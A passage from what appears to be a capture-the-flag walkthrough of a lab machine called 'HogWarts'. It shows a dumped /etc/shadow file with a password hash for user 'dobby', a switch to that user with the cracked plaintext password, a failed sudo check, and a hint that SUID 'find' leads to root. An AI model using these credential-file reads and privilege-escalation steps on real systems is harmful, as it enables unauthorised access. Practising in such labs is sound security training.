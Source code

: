 ```
messagebus:*:18557:0:99999:7:::
syslog:*:18557:0:99999:7:::
_apt:*:18557:0:99999:7:::
tss:*:18557:0:99999:7:::
uuidd:*:18557:0:99999:7:::
tcpdump:*:18557:0:99999:7:::
avahi-autoipd:*:18557:0:99999:7:::
usbmux:*:18557:0:99999:7:::
rtkit:*:18557:0:99999:7:::
dnsmasq:*:18557:0:99999:7:::
avahi:*:18557:0:99999:7:::
cups-pk-helper:*:18557:0:99999:7:::
speech-dispatcher:!:18557:0:99999:7:::
kernoops:*:18557:0:99999:7:::
saned:*:18557:0:99999:7:::
nm-openvpn:*:18557:0:99999:7:::
whoopsie:*:18557:0:99999:7:::
colord:*:18557:0:99999:7:::
sssd:*:18557:0:99999:7:::
geoclue:*:18557:0:99999:7:::
pulse:*:18557:0:99999:7:::
hplip:*:18557:0:99999:7:::
gnome-initial-setup:*:18557:0:99999:7:::
gdm:*:18557:0:99999:7:::
dobby:$6$5zBywVON/Qj/78Yb$ac1hoOn/S/CwZEzl2JZQkKGhkL9N40bV9TJgjF7l3tKSbvGdHrnonYrYfLjF6mwmWrGEojmidvIrrfHEWqSgv.:18573:0:99999:7:::
systemd-coredump:!*:18573::::::
mysql:!:18573:0:99999:7:::
www-data@HogWarts:/home$ 

```

![Screenshot From 2025-06-02 20-45-58](https://github.com/user-attachments/assets/a2af7075-c8ed-41cc-874b-268f0ec6be1f)


## Lateral movements
```
www-data@HogWarts:/tmp$ su dobby
su dobby
Password: ilikesocks

dobby@HogWarts:/tmp$ sudo -l
sudo -l
[sudo] contraseña para dobby: ilikesocks                                                               

Lo sentimos, el usuario dobby no puede ejecutar sudo en HogWarts.
dobby@HogWarts:/tmp$ 


```
## Root
>i thing SUID find is in danger.
{: .prompt-tip }
